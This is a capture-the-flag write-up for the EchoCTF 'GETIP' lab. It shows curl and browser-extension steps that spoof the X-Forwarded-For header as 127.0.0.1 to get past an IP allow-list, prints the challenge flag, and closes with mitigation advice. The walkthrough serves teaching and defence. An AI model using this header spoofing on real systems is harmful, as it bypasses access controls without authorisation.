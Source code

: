 
![getip](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/GETIP/GETIP.png)
# GETIP - CTF Writeup

---

## Introduction

The **GETIP** machine from **EchoCTF** presents a challenge based on manipulating HTTP headers so that the server interprets the request as coming from an allowed IP. The hint indicates that when a web request is forwarded through intermediary servers, a header is added to indicate who the request is being forwarded for. To solve the challenge, we need to make our IP appear as `localhost` or `127.0.0.1`.

---

## Reconnaissance and Exploration

When making an HTTP connection to the address `http://10.0.41.6:1337/` we receive the response:

```csharp
10.10.6.42 is not allowed...
```

This response indicates that the real IP from which the request is made (`10.10.6.42`) is blocked.

---

## Header Manipulation for Bypass

We observe that our `IP 10.10.6.42` is not allowed. The previous hint and this response indicate that we must change our `IP to 127.0.0.1 or 'localhost'` by manipulating headers, which can be achieved in two ways: graphically and via terminal. Both methods are explained below.

### Terminal Method (using curl)

Making a simple request with curl:

```bash
curl http://10.0.41.6:1337/
```

We get:

```
10.10.6.42 is not allowed...
```

If we want to see the headers our request sends, we can use:

```bash
curl -v http://10.0.41.6:1337/
```

This shows information like:

```
> GET / HTTP/1.1
> Host: 10.0.41.6:1337
> User-Agent: curl/8.13.0
> Accept: */*
```

To modify the apparent IP, we add the header `X-Forwarded-For` with the desired IP:

```bash
curl -H "X-Forwarded-For: 127.0.0.1" http://10.0.41.6:1337/
```

With this, the request appears to come from `127.0.0.1` instead of `10.10.6.42`.

Successful response:

```
ETSCTF_SheesStealer_was_here%
```

---

### Graphical Method (using browser and extensions)

1. We enter the URL `http://10.0.41.6:1337/` in the browser and see the blocking message.
![getip2](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/GETIP/getip2.png)

2. We open the **ModHeader** extension (available for Chrome and Firefox).

![getip3](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/GETIP/getip3.png)

3. We add a new header with:
   - Name: `X-Forwarded-For`
   - Value: `127.0.0.1`

![getip4](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/GETIP/getip4.png)

4. We reload the page or navigate again to the URL.  
5. The response now shows the flag correctly.

---

## Vulnerability Identification

- The server trusts the value of the `X-Forwarded-For` header without proper validation.
- There is no robust authentication or IP validation control.
- Validation is based solely on the IP sent in manipulable headers, allowing spoofing.
- This misplaced trust opens the door to bypassing access controls and filtering.

---

## Mitigation Measures

- Validate and sanitize `X-Forwarded-For` and similar headers to ensure they come from trusted sources.
- Do not rely exclusively on HTTP headers to determine the real client IP.
- Implement access controls based on strong authentication rather than relying on IPs.
- Configure proxies and front-end servers to prevent users from modifying critical headers.
- Log and monitor suspicious accesses and anomalous patterns.

---

```c
Writeup Made With ❤️ By SheepsStealer
```
